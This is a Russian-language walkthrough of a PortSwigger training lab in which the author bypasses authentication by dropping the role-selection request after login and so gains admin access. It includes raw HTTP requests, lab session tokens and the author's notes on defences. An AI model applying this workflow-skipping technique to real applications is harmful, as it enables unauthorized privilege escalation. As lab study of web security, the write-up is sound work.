


лаба https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-flawed-state-machine
#### Обход аутентификации
здесь ошибка в логики шагов аутентификации 
задание: получить доступ к интерфейсу администратора и удалить пользователя `carlos`

-----

на сайте можно выбрать роли для своего аккаунта

простой юзер 

создатель конента

и все...

но я подозреваю, что можно подставить туда администратор

вот этот запрос который применяет новую роль

```http
POST /role-selector HTTP/2
Host: 0a9a00a303c7dae380159e480084008f.web-security-academy.net
Cookie: session=ihTHtBrHUwMxkNJTEET4ULKcBUXKcUO2
Content-Length: 47
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a9a00a303c7dae380159e480084008f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9a00a303c7dae380159e480084008f.web-security-academy.net/role-selector
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

role=user&csrf=PgifMg2mjhhZ1BHHJK1xJNa4YM8IqBRz
```


меняю запрос на 
```http
role=administrator&csrf=PgifMg2mjhhZ1BHHJK1xJNa4YM8IqBRz
```

и законно получаю ответ
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
Set-Cookie: session=Y51yFJS2wHpXKG9GEdW2QTGup2u84uj5; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 60

"Invalid CSRF token (session does not contain a CSRF token)"
```

-------

сделал тоже самое и получил ответ 
```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=s7IeRDPs0PoULX6Raf9axmd0xniuOeeC; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

сделал тоже самое и получил еще один вариант ответа
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 31

"No login credentials provided"
```

---

видимо нужно поменять и url ?

выполнил запрос
```http
POST /admin HTTP/2
Host: 0a9a00a303c7dae380159e480084008f.web-security-academy.net
Cookie: session=EVbILKzjV2it4MtG3J1iXDRwfssn1VPQ
Content-Length: 56
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a9a00a303c7dae380159e480084008f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9a00a303c7dae380159e480084008f.web-security-academy.net/role-selector
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

role=administrator&csrf=sT2HUXJQyL5t3JUelXZDCbSKWPIHtkZR
```

получил ответ ` Admin interface only available if logged in as an administrator`


------

то есть я угадал страницу админки, осталось лишь туда залогиниться

--------

может в этом запросе 
параметры и не нужно отправлять - а просто прописать админ туда?
вот так GET /role-selector/admin HTTP/2
```http
GET /role-selector HTTP/2
Host: 0a9a00a303c7dae380159e480084008f.web-security-academy.net
Cookie: session=65rnaeI6F3YYtOp4dq89LzYQyCIIpY5C
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9a00a303c7dae380159e480084008f.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
ответ "Not Found"

-------


может тут роль не нужно присваивать ? типо админу роль не нужна?

можно просто залогиниться и сразу получить аккаунт?




сейчас вот такая последовательность 

зеленый запрос - ввел пароль+логин - вход
первый желтый - получил форму для выбора роли
второй желтый - выбрал роль (подсунуть туда админимтратора не получается)
и только потом розовый - попадаю на главную стр

---
возможно если не делать "желтые шаги" и без роли открыть страницу сразу после авторизации - то может получиться обойти это условие где выбираю роль - и тогда ак будет без роли, без роли - то есть админ?

------

перехватил зеленый запрос и отправил его

перхватил овтет с желтым и дропнул его

сразу отправил запрос фиолетовый



что-то получилось... я зашел на главную страницу - но без роли
теперь либо глянуть че в админке 
либо перейти по /admin

оба варианта не сработали

получается - я перешагнул этап с получением роли 

возможно только сейчас, когда я уже залогинен без роли
я может смогу отправить запрос который поставит мне роль админа

-----
беру текущую куку 9hbB6mj0CFS4tBK3uYQL4hNFGTKphfPY

беру запрос на установку роли
и подставляю админа
и смотрим результат
```http
POST /role-selector HTTP/2
Host: 0a9a00a303c7dae380159e480084008f.web-security-academy.net
Cookie: session=9hbB6mj0CFS4tBK3uYQL4hNFGTKphfPY
...
..


role=administrator&csrf=jeEaJXmzqZfdqMJqrD9zVFEdbWD3fmSh
```
ответ - "Invalid CSRF token (session does not contain a CSRF token)"

блин.. токен... неверный

---

пробую все тоже самое - еще раз

но после логина - выполню этот запрос

нужно получить csrf токен 

токен приходит в скрытом виде вот здесь
когда я открываю форму для вводу логин+пароль
```html
                       <form class=login-form method=POST action="/login">
                            <input required type="hidden" name="csrf" value="xcRiLS60CLTESHX9GJyE2L6vA99PQ78J">
                            <label>Username
```
получил токен fRQMbPhLYBT2K6rKlLy7nfwdzjdcfTKK
и куку session=Umgro75ThfLY2KUagF8DtZD3aQXCwJw1

отправляю
сперва авторизация
```http
POST /login HTTP/2
Host: 0a9a00a303c7dae380159e480084008f.web-security-academy.net
Cookie: session=Umgro75ThfLY2KUagF8DtZD3aQXCwJw1
Content-Length: 68
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a9a00a303c7dae380159e480084008f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9a00a303c7dae380159e480084008f.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=fRQMbPhLYBT2K6rKlLy7nfwdzjdcfTKK&username=wiener&password=peter
```

затем это
```http
GET /my-account?id=wiener HTTP/2
Host: 0a9a00a303c7dae380159e480084008f.web-security-academy.net
Cookie: session=Umgro75ThfLY2KUagF8DtZD3aQXCwJw1
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9a00a303c7dae380159e480084008f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

пробовал и так GET / HTTP/2
и так GET /admin HTTP/2

и все происходит как обычно
доступа к админке нет

------

я понял!

пробую еще раз

(перехват включен)
просто перехватываю запрос на логин 

теперь дропаю запрос на выбор роли (в браузере еррор перехват включен)
(перехват вЫключен)

иду в браузер и перехожу на страницу  /my-account

и вуаля - получаю админку!

то есть моя одна из первых идей стработала! просто я в тот раз сразу перегружал страницу , но в адресной строке оставался запрос /role-selector
поэтому он пытался снова роль выбрать мне


--------

какие тут выводы и как защититься?


во первых я смог пользоваться сайтом - перепрыгнув выбор роли
нужно такой доступ не допускать вообще
то есть нужно чтобы сервер фиксировал шаги, и когда роль выбрана - то тогда уже флаг сохранить там у себя и давать доступ к след шагу (ручкам)

во вторых функционал админ панели выдавать только по признаку того, что нет роли? глупости какие-то..
админка вообще , как я думаю, должна быть отдельно от всего.
ну или хотя бы админский функционал должен выдаваться только по паролям / логинам админа, и по отдельным ссылкам в идеале

я попал из акаунта юзера с куками и токенами юзера в ак администратора 
так нельзя, нужно строго проверять все токены и роли


